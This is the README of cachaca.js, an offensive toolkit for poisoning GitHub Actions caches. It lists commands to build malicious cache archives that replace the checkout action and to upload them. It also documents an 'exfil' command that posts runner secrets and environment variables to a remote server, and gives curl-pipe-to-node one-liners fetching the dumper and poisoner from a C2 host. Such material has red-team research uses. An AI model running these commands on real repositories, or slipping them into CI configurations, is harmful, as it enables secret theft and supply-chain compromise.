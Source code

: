 <div align="center">
	:cocktail:
</div>
<h1 align="center">
  cachaca.js
</h1>

<p align="center">
   Some JS files to exploit GitHub action cache poisoning.
</p>

<div align="center">
  <!--<img src="img/cachaca.png"/>-->
</div>

<br />

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Installation](#installation)
- [GitHub action cache poisoning](#github-action-cache-poisoning)
- [Usage](#usage)
  - [cachaca-cli.js](#cachaca-clijs)
    - [Upload](#upload)
    - [Archive](#archive)
    - [list](#list)
    - [delete](#delete)
    - [exfil](#exfil)
  - [cachaca-dumper.js](#cachaca-dumperjs)
  - [cachaca-poisoner.js](#cachaca-poisonerjs)
- [Acknowledgements](#acknowledgements)


## Installation

```
$ git clone https://github.com/Hug0Vincent/cachaca.js.git
$ cd cachaca.js
$ npm i
```

To build all the scripts:
```
$ npm run build
```

## GitHub action cache poisoning

> when a workflow checked out and ran user-controlled code, but only had a ``GITHUB_TOKEN`` with read access and no secrets [...] There is a way to escalate by smashing caches.

This attack vector was originaly found by [@adnanthekhan](https://twitter.com/adnanthekhan), you can read it [here](https://adnanthekhan.com/2024/05/06/the-monsters-in-your-build-cache-github-actions-cache-poisoning/) and [here](https://adnanthekhan.com/2024/12/21/cacheract-the-monster-in-your-build-cache/).

This project includes JS scripts designed to exploit GitHub Actions's cache mechanism. To use them, you must be able to execute arbitrary commands within a workflow running on the default branch.

## Usage

### cachaca-cli.js

```
$ node dist/cachaca-cli.js
Usage: cachaca.js [options] [command]

CLI tool for exploiting GitHub action's cache.

Options:
  -V, --version      output the version number
  --stealth          Disable logging (default: false)
  -h, --help         display help for command

Commands:
  upload [options]   Upload a cache entry to GitHub.
  archive [options]  Build a cache archive.
  list [options]     List all cache entries for a repository
  delete [options]   Delete a specific cache entry
  exfil [options]    Send secrets to a remote server.
  help [command]     display help for command

```

#### Upload

The upload command can be used to upload a ``zstd`` archive to GitHub. It should be run from a runner:

```
$ node dist/cachaca-cli.js upload -k cache_key -v node_modules -u https://127.0.0.1/mycache.zstd
```

> [!NOTE] 
> You can specify the version as a path (or multiple paths separated by commas). If you do, the tool will automatically resolve the actual version for you.

```
Usage: cachaca.js upload [options]

Upload a cache entry to GitHub.

Options:
  -k, --key <key>          Cache key
  -v, --version <version>  Cache version
  -f, --file <path>        Path to the local artifact file
  -u, --url <url>          URL of the remote artifact file
  -t, --token <token>      GitHub token
  --compute-version        Display computed version.
  --compute-key            Compute key using hashFiles(). A glob can be passed.
  -h, --help               display help for command
```

> [!NOTE] 
> You can execute it independently of a runner by supplying a cached JWT. However, you won’t be able to upload an archive if the workflow that provided the JWT has already terminated.

``--compute-version`` and ``--compute-key`` can be used to compute cache values like this:
```
$ node cachaca-cli.js upload -k '**/package.json' --compute-key
Computed key is: 447dde1e1cf2008a10a4a91115fdc2d5d70384191b75df6093b3d25a298f0658
$ node cachaca-cli.js upload -v node_modules --compute-version
Computed version is: 7fcda33c1e1d849a13bcc06f49b9ab64efc01ca9dabe4d7a8d0d387feef4fc88
```

#### Archive

This command can be used to build malicious ``zstd`` archives:

```
$ node dist/cachaca-cli.js archive -z mycache.zstd -a ./assets/action_checkout.yml -r /home/runner/work/_actions/actions/checkout/v4/action.yml
$ node dist/cachaca-cli.js archive -z mycache.zstd -a ./dist/cachaca-dumper.js -r /home/runner/work/_actions/actions/checkout/v4/dist/cachaca-dumper.js
📦 building archive: mycache.zstd
✅ Archive updated.
📄 Archive entries:
	- /home/runner/work/_actions/actions/checkout/v4/action.yml
	- /home/runner/work/_actions/actions/checkout/v4/dist/cachaca-dumper.js

```

```
Usage: cachaca.js archive [options]

Build a cache archive.

Options:
  -z, --zstd <path>          Path for the archive file
  -a, --add <path>           Source file or directory to archive
  -r, --rename <name>        Rename file in archive.
  -l, --leading-path <path>  Leading path in the archive (default: "")
  --list                     List archive content.
  -h, --help                 display help for command

```

#### list

This command is used to list cache entries from a repo:

```
$ node dist/cachaca-cli.js  list -o actions -r runner                                                                                     26.15% 2/9GB 
Cache entries:
- Key: Linux-nuget-86355ad7f28c3580457d8ef5b7f66a402201c7c7abb60add09b887f3512d907e, Version: 8c75eb08de5d59433e0e9b6619bc4f318fdc1c66a7b9ee1589973a6c37f2b874, Ref: refs/heads/main, Size: 1737918364 bytes
- Key: Linux-nuget-d6dfc31d4d2f6ebf6a2ed39484c617033ba83fe3a0919004cd7fd1219228cf2d, Version: 8c75eb08de5d59433e0e9b6619bc4f318fdc1c66a7b9ee1589973a6c37f2b874, Ref: refs/heads/dependabot/nuget/src/Sdk/main/Azure.Storage.Blobs-12.25.1, Size: 2610626989 bytes
```

#### delete

This command is used to remove a cache entry from a repo.

```
$ node dist/cachaca-cli.js  delete -o org -r repo -t $GHP -k cache_key -v cache_version
```

> [!IMPORTANT]  
> You need to provide a token with the ``actions: write`` permission.

#### exfil

This command extracts the GitHub secrets passed to the runner, along with the current environment variables, and sends them as a JSON payload via a POST request to a remote server. It must be executed within a runner.

```
$ node dist/cachaca-cli.js exfil -u https://127.0.0.1
```

### cachaca-dumper.js

Single script that perform the same operation as the ``exfil`` command. The URL is embedded at build time. It can be used from a command injection inside a runner:

```
$ curl -k https://c2.tld/cachaca-dumper.js | node
```

To configure it edit the ``dumperExfilUrl`` value in [config.json](config.json).

### cachaca-poisoner.js

Single script that perform the same operation as the ``upload`` command. The arguments are embedded at build time. It can be used from a command injection inside a runner:

```
$ curl -k https://c2.tld/cachaca-poisoner.js | node
```

To configure it edit the values in [config.json](config.json).

``poisonerFetchMode`` can be ``url`` / ``file`` / ``embedded``. In any case ``poisonerFetchModeValue`` will contain the associated value wich would be an URL or a file path. In the ``embedded`` case the file will be staticaly added to ``cachaca-poisoner.js``.

``poisonerCacheVersion`` must contain the full version or the value of the ``path`` in the ``restore`` action:

```yml
-   name: cache
    uses: actions/cache/restore@v4
    with:
        path: node_modules/
        key: npm-test
```

Here is a config example:

```json
{
    "dumperExfilUrl":"https://127.0.0.1/",
    "poisonerFetchMode":"url",
    "poisonerFetchModeValue":"http://127.0.0.1/custom_cache.zstd",
    "poisonerCacheKey": "npm-test",
    "poisonerCacheVersion": "node_modules/"
}
```

## Acknowledgements

- [@adnanthekhan](https://twitter.com/adnanthekhan) for the original research and also because portions of this project include code from [Cacheract](https://github.com/AdnaneKhan/Cacheract).
